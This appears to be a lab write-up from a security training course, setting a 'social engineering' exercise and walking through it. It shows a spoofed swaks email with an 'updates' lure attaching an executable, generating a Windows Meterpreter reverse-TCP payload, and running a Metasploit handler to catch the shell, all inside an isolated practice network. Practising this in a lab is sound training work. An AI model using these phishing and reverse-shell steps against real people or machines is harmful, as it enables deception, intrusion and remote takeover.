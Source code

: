 ![Screenshot](6.3/Screenshot1.png)

# Level 2.3 — 7.3 — Practice "Social Engineering"

## Task
Your task is to prepare an executable file (extensions .exe) with msfvenome and send it to the workstation user mike@sandbox.local in order to take control of his machine with MetaSploit.

In order to send a letter to the laboratory bench you have deployed, you can use various mail agents, for example: swaks (To install on Kali Linux: apt install swaks).

Since the lab that you will be attacking is a mail server, you need to send a letter using it, that is, the mail server address should be the IP address of the lab that you deployed.

An example of a command to send an email:
swaks --to mike@sandbox.local --from administrator@sandbox.local --header "Subject: Updates" --body "Please run this exe file for updates" --server 192.168.1.102 --attach example.exe

, where 192.168.1.102 is the IP address of the laboratory stand you deployed, example.exe is the load you prepared to receive the reverse shell.

As an answer, provide the flag from the root.txt file on Mike's desktop.

## How to solve

1. Install Kali Linux and Windows 10 on VirtualBox.

2. In the VirtualBox network manager, create a new NAT network with addresses `10.0.2.0/24`. In the OS settings, specify the "NAT network" connection with this network and turn off the Internet.

3. On Windows 10, run the `ipconfig` command in the CMD prompt and remember the IP address, for example `10.0.2.15`.

4. In Kali Linux:
    - Determine Kali's IP address: `$ip address`.
    - Identify devices on the network: `$ sudo nmap -sn --traceroute 10.0.2.0/24`.
    - Check open ports on a specific device: `$ sudo nmap -sS 10.0.2.15`.

5. Create Meterpreter Payload for Windows: `$ msfpc windows 10.0.2.4`.

```bash
[i] IP: 10.0.2.4
[i] PORT: 443
[i] TYPE: windows (windows/meterpreter/reverse_tcp)
[i] windows meterpreter created: '/home/kali/windows-meterpreter-staged-reverse-tcp-443.exe'
```
6. In a new terminal, run Metasploit: `$ msfconsole`.
- Select an exploit to handle the connection: `msf6 > use exploit/multi/handler`.
- Set parameters for the exploit:
   ```
   msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
   msf6 exploit(multi/handler) > set LHOST 10.0.2.4
   msf6 exploit(multi/handler) > set LPORT 443
   ```
- Run the exploit: `msf6 exploit(multi/handler) > run`.